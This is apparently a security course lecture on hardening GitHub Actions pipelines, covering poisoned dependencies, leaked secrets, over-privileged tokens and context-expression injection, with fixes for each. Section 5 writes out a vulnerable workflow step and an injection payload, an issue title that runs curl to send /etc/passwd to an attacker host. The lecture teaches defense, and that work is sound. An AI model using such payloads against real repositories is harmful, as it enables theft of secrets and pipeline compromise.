

# Lecture 2 — Hardening the CI/CD Pipeline

> **Duration:** ~2 hours. **Outcome:** You can name the four risk categories that make a CI/CD pipeline an attack surface in its own right — poisoned dependencies, leaked secrets, over-privileged runners, and context-expression injection — and apply the specific hardening technique for each to a real GitHub Actions workflow.

## 1. The pipeline holds more privilege than the app it builds

Every prior week treated the running application as the thing worth attacking. The pipeline that *builds* that application is a different, and often more valuable, target — and real incidents back this up: the 2020 SolarWinds compromise inserted malicious code during the **build** step, so every customer who trusted the signed, "clean" output got a backdoor none of their own code review would ever have caught, because their code review never saw the tampered step. The 2021 Codecov incident modified a **build script** to exfiltrate CI environment variables — meaning every pipeline that used the compromised script leaked whatever secrets it had access to, across thousands of unrelated projects, without a single line of application code being touched. Neither incident required finding a bug in the target application at all. The pipeline was the target.

This matters structurally because a CI/CD pipeline routinely holds:

- **Deploy credentials** — cloud provider keys, SSH keys, Kubernetes service account tokens.
- **Signing keys** — the same keys Lecture 3 has you use to prove artifact integrity; if the pipeline itself is compromised, a stolen signing key can make a malicious artifact look legitimate.
- **Broad write access** to your source repository, package registry, and often production infrastructure directly.

A compromised application server usually gets an attacker into *that* system. A compromised pipeline can get an attacker into **every system that pipeline ever deploys to**, and can poison every future build silently, which is exactly why this lecture treats "harden the pipeline" as its own discipline, not an afterthought to "harden the app."



*Compromising the pipeline reaches every system it deploys to; compromising the app directly only reaches that one system.*

## 2. Risk 1 — Poisoned dependencies (the pipeline's own supply chain)

Week 9 taught dependency confusion and typosquatting against **your application's** dependencies. The exact same risk applies to **the pipeline's** dependencies — and a pipeline has more of them than you'd think:

- **Third-party GitHub Actions** — `uses: some-org/some-action@v3` pulls and executes someone else's code, with the same privilege your job has, on every run. The Actions Marketplace has no equivalent of a security review gate; anyone can publish an action.
- **Base container images** — a runner or a Docker build step that pulls `some-tool:latest` gets whatever that tag currently points to, which can change without your knowledge.
- **Install-time scripts** — `curl -sSf https://example.test/install.sh | bash` (this week's `PIPE-5`) fetches and executes arbitrary code from a network endpoint you don't control, with zero verification that what you got today is what you tested yesterday.

**The defense in every case is the same idea Week 9 taught for application dependencies: pin to an exact, verifiable identity, not a name that can be silently repointed.** For GitHub Actions specifically, that means pinning `uses:` to a **full commit SHA**, not a tag:

```yaml
# Before -- a tag can be moved by whoever controls that repo, pointing
# "v4" at different code tomorrow without your workflow file changing at all.
- uses: actions/checkout@v4

# After -- a specific commit, cryptographically identified by its SHA.
# This exact code cannot change out from under you; a repointed tag has
# no effect on a SHA pin.
- uses: actions/checkout@8f4b7f84864484a7bf31766abe9204da3cbe65b3 # v4.2.2
```

The trailing comment naming the human-readable version is a convention, not decoration — it's how the next person (or you, in six months) knows what that SHA corresponds to without looking it up. Bumping a pinned SHA is a deliberate, reviewed action (often automated via a bot that opens a PR when a trusted maintainer cuts a new release) rather than something that happens silently on every run.

## 3. Risk 2 — Leaked secrets

Workflow files and their logs are a surprisingly common secret-leak surface, in a few specific, recurring ways:

- **Hardcoded directly in the YAML** (this week's `PIPE-4`) — the most obvious version, and the easiest for a secret-scanning gate (Lecture 3) to catch.
- **Printed by accident** — a debug `echo $SOME_TOKEN` or a verbose logging flag left on, dumping a secret into build logs that may be readable by anyone with repo access, or even publicly if the repo is public.
- **Exposed to untrusted contexts** — a workflow triggered by `pull_request` from a fork runs with restricted permissions and no access to repository secrets by default, specifically because a fork's code is untrusted. The dangerous variant is `pull_request_target`, which runs with the **base repository's** permissions and secrets — deliberately designed for cases like "add a label based on PR content," but a serious mistake if it's also configured to check out and *execute* the untrusted fork's code. Getting this wrong is one of the most common real-world causes of a fork-based attacker getting your repository's secrets.

Defenses: never hardcode a secret in a workflow file — use the platform's secret store (`secrets.DEPLOY_ACCESS_KEY` in GitHub Actions), scope secrets to specific environments rather than the whole repository when a platform supports it, treat `pull_request_target` as a red flag that needs a specific, deliberate justification every time it appears, and enable secret-scanning **push protection** so an accidental commit of a real credential is blocked before it ever reaches the remote — not just detected after the fact.

## 4. Risk 3 — Over-privileged runners

Every GitHub Actions job gets an automatically-generated `GITHUB_TOKEN` for that run. Without an explicit `permissions:` block (this week's `PIPE-3`), that token defaults to broad read/write access — able to push code, modify releases, write to packages — for a job that, in Crunch Deploy's case, only needs to read the repository and run tests. **Least privilege** here means stating explicitly what a job is allowed to touch, and defaulting everything else to nothing:

```yaml
permissions:
  contents: read   # this job only reads the repo; it does not push, tag, or release

jobs:
  build-and-deploy:
    permissions:
      contents: read
      # add exactly the scopes THIS job needs, nothing more --
      # e.g. `packages: write` only on the specific job that publishes a package
```

The same least-privilege logic applies one layer up, to whatever the pipeline uses to reach real infrastructure: prefer short-lived, federated credentials obtained via OpenID Connect (OIDC) — where the cloud provider trusts a signed token from GitHub for the duration of a single job — over a long-lived cloud access key sitting in a secret store indefinitely. A leaked OIDC-issued token expires in minutes; a leaked long-lived key is a standing liability until someone notices and rotates it. This course's lab keeps deploy fully local (Section 6 of this week's README), so you won't configure real OIDC federation — but recognize the term and the reasoning, because it's the industry-standard answer to "how do we avoid long-lived cloud secrets in CI" wherever a pipeline reaches a real cloud provider.

Ephemeral, single-use runners matter for the same reason: a **self-hosted** runner reused across many jobs — including untrusted ones, like a fork's pull request — can retain state (cached credentials, leftover files) from one job into the next, and a malicious job run on it could tamper with the runner itself for every job that follows. GitHub-hosted runners (and `act`'s local simulation) start fresh every run specifically to avoid this.

## 5. Risk 4 — Context-expression injection (untrusted input reaching a shell)

This is a distinct and less obvious risk category that deserves its own callout, because it's the exact same *shape* of bug Week 5 spent an entire week on — untrusted data crossing into an interpreter that can't tell data from instructions — just showing up in a place people don't expect: a CI workflow file.

GitHub Actions lets you interpolate context values directly into a step using `${{ }}` syntax:

```yaml
# VULNERABLE -- github.event.issue.title is attacker-controlled text (anyone
# who can open an issue controls it), and this substitution happens BEFORE
# the shell ever runs, as a literal text replacement into the run: block.
- name: Greet
  run: echo "New issue title: ${{ github.event.issue.title }}"
```

If an attacker opens an issue titled `"; curl https://attacker.example/exfil?d=$(cat /etc/passwd) #`, GitHub Actions substitutes that string **directly into the YAML's shell command as text**, before the shell interprets anything. The shell then sees a command that was never written by you — the quote closes early, a semicolon starts a new command, and the attacker's `curl` runs with whatever privilege that job has. This is functionally identical to Week 5's SQL injection: untrusted data was allowed to become code, because it was concatenated into a command instead of kept separate from it.

**The fix is the same shape as Week 5's fix, too: never let untrusted data cross into the interpreter as text you built by hand — pass it as a bound value instead.** For shell commands, that means routing the untrusted value through an environment variable first, so the shell sees a variable reference, not attacker-controlled syntax:

```yaml
# FIXED -- the untrusted value is bound to an environment variable BEFORE the
# shell runs. The shell only ever sees the literal text "$TITLE" in the
# command; the actual (possibly malicious) content is data inside a variable,
# never re-parsed as shell syntax.
- name: Greet
  env:
    TITLE: ${{ github.event.issue.title }}
  run: echo "New issue title: $TITLE"
```

Challenge 2 has you exploit this exact pattern against your own local pipeline via `act`, watch it work, then apply this fix and prove it no longer does.

## 6. Putting it together: the hardened `permissions:`/pinning header

A hardened workflow states its trust boundary at the very top, before a single step runs:

```yaml
name: Crunch Deploy CI

on:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  build-and-deploy:
    runs-on: ubuntu-latest
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@8f4b7f84864484a7bf31766abe9204da3cbe65b3 # v4.2.2
      - uses: actions/setup-python@0b93645e9fea7318ecaed2b359559ac225c90a2b # v5.3.0
        with:
          python-version: "3.11"
      # ... gates and steps continue in Lecture 3
```

`timeout-minutes` is a small but real hardening step too — an unbounded job is one way a compromised or runaway step (a cryptomining payload smuggled in via a poisoned dependency, for instance) keeps running and consuming resources indefinitely instead of failing fast.

## 7. Check yourself

- Why does compromising a CI/CD pipeline potentially give an attacker access to more systems than compromising the application it builds?
- What's the difference between pinning a GitHub Action to `@v4` and pinning it to a commit SHA, and which one can be silently repointed?
- Why is `pull_request_target` combined with checking out and executing a fork's code specifically dangerous, when plain `pull_request` isn't?
- Explain, in your own words, why `run: echo "${{ github.event.issue.title }}"` is structurally the same bug as an unparameterized SQL query from Week 5.
- Name the fix for context-expression injection, and explain specifically why routing the value through an `env:` variable closes the hole (what does the shell actually see in each version?).

Lecture 3 takes the last piece: turning Semgrep and Trivy into gates that actually fail this hardened pipeline's build on a real finding, and signing the artifact that finally makes it through.

## Further reading

- **GitHub — Security hardening for GitHub Actions:** <https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions> — the official reference this lecture's `permissions:`/pinning guidance is drawn from.
- **GitHub — Security hardening for `GITHUB_TOKEN`:** <https://docs.github.com/en/actions/security-guides/automatic-token-authentication> — how default token permissions work and how to scope them down.
- **OWASP — Top 10 CI/CD Security Risks:** <https://owasp.org/www-project-top-10-ci-cd-security-risks/> — the community-maintained catalog this lecture's four risk categories map onto directly.
- **GitHub — Understanding the risk of script injection:** <https://securitylab.github.com/resources/github-actions-untrusted-input/> — a deep, example-driven treatment of the exact context-expression injection pattern in Section 5.
